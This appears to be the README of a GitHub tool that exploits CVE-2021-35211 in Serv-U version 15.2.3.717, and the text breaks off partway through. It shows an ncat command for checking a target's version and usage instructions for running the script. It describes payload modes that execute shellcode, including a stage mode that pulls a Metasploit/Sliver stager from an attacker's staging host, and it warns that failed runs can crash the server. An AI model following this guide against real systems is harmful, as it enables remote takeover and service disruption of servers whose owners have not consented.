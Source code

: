 # Serv-U CVE-2021-35211 Exploit

## Potential for DoS - check your rules of engagement
The exploit doesn't work every time, but it works enough that it will run shellcode in roughly 1 in every 5 or 6 runs. However, sometimes a failed exploit will crash the Serv-U server. Please ensure that your rules of engagement permit the risk of loss or degradation of service. Symptoms seen in testing include:
* crash and automatic restart (most common)
* disconnecting logged-in users during successful and *un*successful attempts
* crash with failure to automatically restart

**Caveat emptor**.

## Quick Start
Versions are important. This exploit uses hard-coded ROP addresses valid only against Serv-U version `15.2.3.717`. We may be able to add other versions, please ask if you need it to work with different versions of Serv-U or Windows.

### Check the version on your target

```
% ncat www.example.com 22
SSH-2.0-Serv-U_15.2.3.717
```

### Running the exploit
It takes the following arguments:

```
% python3 CVE-2021-35211.py
usage: CVE-2021-35211.py [-h] [-p TARGETPORT] targetHost {stage,exec,downloadexec} ...
```

There three modes (or payloads) that you can run in a successful attack:

1. `stage`
2. `exec`
3. `downloadexec`

### Stage mode
Upon successful exploit, runs a Metasploit/Sliver-compatible shellcode stager. It is the least reliable of all the payloads; consider `downloadexec1 instead. Run like this:

```
% python3 CVE-2021-35211.py example.com stage -h
usage: CVE-2021-35211.py targetHost stage [-h] stageHost stagePort

positional arguments:
  stageHost   Hostname or IPv4 address of your Metasploit/Sliver shellcode staging instance
  stagePort   Port number for your staging instance

optional arguments:
  -h, --help  show this help message and exit
```
